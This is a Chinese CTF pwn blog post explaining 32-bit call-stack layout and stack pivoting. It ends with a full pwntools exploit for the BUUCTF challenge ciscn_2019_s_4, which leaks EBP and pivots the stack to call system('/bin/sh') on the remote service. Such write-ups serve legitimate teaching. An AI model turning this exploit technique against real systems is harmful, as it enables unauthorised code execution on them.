```yaml
---
title: "[PWN.0x00]函数调用栈结构与栈迁移"
date: 2022-03-05T20:30:31+08:00
draft: false
url: "articles/CTFpwn1"
categories: ["CTF","PWN"]
---
```


**前置知识：**[汇编语言（第4版）](https://book.douban.com/subject/35038473/)前半本

> 注：本文适用于32位程序，示意图中上为高地址区，下为低地址区。若方框中字体为蓝色表示此处内存的地址，为黑色表示此处内存存储的值。**示意图中leave均表示leave&ret**

#### 函数调用栈的基本结构

**一些寄存器的作用：**

**EIP：**存储着下一条指令的地址，每执行一条指令，该寄存器变化一次。

**EBP：**存储着当前函数栈底的地址，通过将其与偏移地址相加减获取变量的地址。

**ESP：**始终指向栈顶。

在进入一个函数时，会执行如下操作。

```assembly
push eip+4
push ebp
mov ebp,esp
```

在执行完退出时，会执行如下操作。

```assembly
mov esp,ebp
pop ebp

pop eip
```

即leave和ret。

整个过程描述起来就是，先将函数执行完成之后应当去执行的语句（eip+4）和主程序的的基址（ebp）压入栈中，然后再将ebp指向栈底。在函数执行完之后，再进行一遍上述过程的逆过程。

函数调用栈工作时的结构如下图：

![](1.svg)

其中val0地址处存储主程序传入的参数，如果有多个传入参数，它们将按照从右到左的顺序被push入栈中，val1~3为函数申请的局部变量。它们将按照申请的顺序被放入栈中。举例来讲，形如：

```c
void func(int a){
    int b,c;
    char s[10];
}
```

这样的函数，a将被存入val0，b将被存入val1，c将被存入val2，s将被存入val3。

考虑最基础的栈溢出题目，由于程序将按照地址从低到高的顺序存储字符串变量，所以当s的数据由选手掌控且溢出空间足够大时，s将溢出到val2，val3，甚至旧ebp，eip的位置上。所以选手就可以控制旧ebp，eip处的内容，实现劫持程序返回，让程序执行恶意代码的目的。

但有时候，选手能掌控的数据量很有限，不足以支持我们完成过于复杂的劫持指令，对于这种情况，其中一种解题方法就是栈迁移。



#### 栈迁移

栈迁移的核心思想是劫持当前函数已经压入栈中的eip段，将其内容改为一次leave，同时修改旧ebp段，借助旧ebp为跳板，实现对esp的控制，进而在下一次ret中，修改eip的值，实现目的。

也就是说，要构造栈中数据如图所示：

![2](2.svg)

至于为什么要-4，后面模拟的过程中读者自能体会。

好了，现在当前函数已经执行完了，程序将自行执行一次leave和ret。执行之后的结果如图：

![3](3.svg)

然后程序会执行eip指向的地址的命令，即再执行一次leave，ret，执行后栈的情况如图：

![4](4.svg)

这样我们就完成了借助ebp为跳板，将esp指向目标eip的位置，控制程序在最后一次ret（即pop eip）的时候，将eip赋值成了我们想让它执行的函数的地址。



#### 例题：ciscn_2019_s_4

[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_s_4)

所谓“从零开始的Pwner生活”第一题，差点直接给我整劝退。

惯例checksec，只开了NX。

ida分析得到：

```c
int vul()
{
  char buf[40]; // [esp+0h] [ebp-28h] BYREF
  memset(buf, 0, 0x20u);
  read(0, buf, 0x30u);
  printf("Hello, %s\n", buf);
  read(0, buf, 0x30u);
  return printf("Hello, %s\n", buf);
}
```

发现只有8个字节的溢出空间，不足以支持一次完整的ROP，但是可以读两次，且第一次读入有输出，因此可以利用第一次读入来泄露ebp（注：这里的ebp指的是vul函数的ebp，即read函数栈帧中的旧ebp）。

第一次读满0x28个字节，由于printf输出的时候会一直输出到\x00为止，所以会把ebp也一起输出来。

在第二次输入的时候构造一个栈迁移的结构，将栈迁移到我们能控制的buf段。

![5](5.svg)

结合文章开头函数调用栈的知识，不难理解，'bin/sh'和buf_addr+12都将作为输入的参数输入到system函数中，所以程序最终执行的效果就是获取了shell。

注意到我们需要填入的信息中需要我们预先知道buf的地址，可以在本地动态调试（gdb）中获取ebp和buf地址的差值，然后作差得到。**不要想当然地认为buf和ebp的差值就是0x28，这只是在read函数中的情况，此处的ebp指的是vul函数中的ebp，即read函数中ebp指向的oldebp。**

EXP：

```python
from psutil import process_iter
from pwn import *
context(arch="i386",log_level="debug")
op=0
e=ELF("ciscn-s-4.bin")
sys_addr=e.symbols['system']
leave_addr=0x080484B8
def main():
    if op==1:
        zeroy=process("ciscn-s-4.bin")
    else:
        zeroy=remote("node4.buuoj.cn",27827)
    payload1=b'a'*0x24+b"bbbb"
    zeroy.recvuntil("name?")
    zeroy.send(payload1)
    zeroy.recvuntil("bbbb")
    ebp_addr=u32(zeroy.recv(4))
    print("ebp_addr: ",hex(ebp_addr))
    buf_addr=ebp_addr-0x38
    payload2=p32(sys_addr)+b'aaaa'+p32(buf_addr+12)+b'/bin/sh\x00'
    payload2=payload2.ljust(0x28,b'a')+p32(buf_addr-4)+p32(leave_addr)
    zeroy.send(payload2)
    zeroy.interactive()
main()
```

